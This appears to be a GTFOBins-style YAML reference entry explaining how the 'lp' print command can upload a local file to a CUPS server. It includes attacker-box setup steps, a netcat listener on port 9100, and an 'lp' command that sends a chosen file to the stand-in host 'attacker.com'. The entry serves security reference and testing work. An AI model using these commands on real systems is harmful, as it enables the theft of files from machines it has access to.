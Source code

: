 ```yaml
---
functions:
  file-upload:
    - description: |
        To collect the file run the following on the attacker box (this requires `cups` to be installed):

        1. `lpadmin -p printer -v socket://localhost -E` to create a virtual printer;
        2. `lpadmin -d printer` to set the new printer as default;
        3. `cupsctl --remote-any` to enable printing from the Internet;
        4. `nc -lkp 9100` to receive the file.

        Send a local file to a CUPS server.
      code: |
        LFILE=file_to_send
        RHOST=attacker.com
        lp $LFILE -h $RHOST
---
```


